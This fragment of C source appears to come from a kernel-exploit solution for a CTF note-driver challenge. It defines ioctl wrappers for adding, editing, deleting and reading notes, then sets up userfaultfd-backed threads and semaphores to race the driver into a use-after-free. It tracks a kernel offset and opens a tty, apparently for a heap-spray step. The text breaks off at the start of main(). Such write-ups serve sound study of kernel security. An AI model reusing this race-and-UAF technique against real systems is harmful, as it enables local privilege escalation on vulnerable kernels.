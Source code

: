 ```c
int file_fd;

void note_add(size_t index, size_t size, char* buf){
    userarg book = {
        .index = index,
        .size = size,
        .buf = buf
    };
    ioctl(file_fd, 0x100, &book);
}

void note_delete(size_t index){
    userarg book = {
        .index = index
    };
    ioctl(file_fd, 0x200, &book);
}

void note_edit(size_t index, size_t size, char* buf){
    userarg book = {
        .index = index,
        .size = size,
        .buf = buf
    };
    ioctl(file_fd, 0x300, &book);
}

void gift(char* buf){
    userarg book = {
        .buf = buf
    };
    ioctl(file_fd, 0x64, &book);
    
}

void note_read(size_t index, char* buf){
    read(file_fd, buf, index);
}

void note_write(size_t index, char* buf){
    write(file_fd, buf, index);
}

char content[0x50];
char* uffd_addr;
sem_t evil_add, evil_edit;
pthread_t edit_thread, add_thread;
size_t kernel_offset = 0;


void make_UAF(){
    sem_wait(&evil_edit);
    note_edit(0, 0, uffd_addr); // UAF后卡住
}

void fix_size(){
    sem_wait(&evil_add);
    note_add(0, 0x60, uffd_addr);
}

int main(){
    pthread_t monitor;
    int tty_fd;
```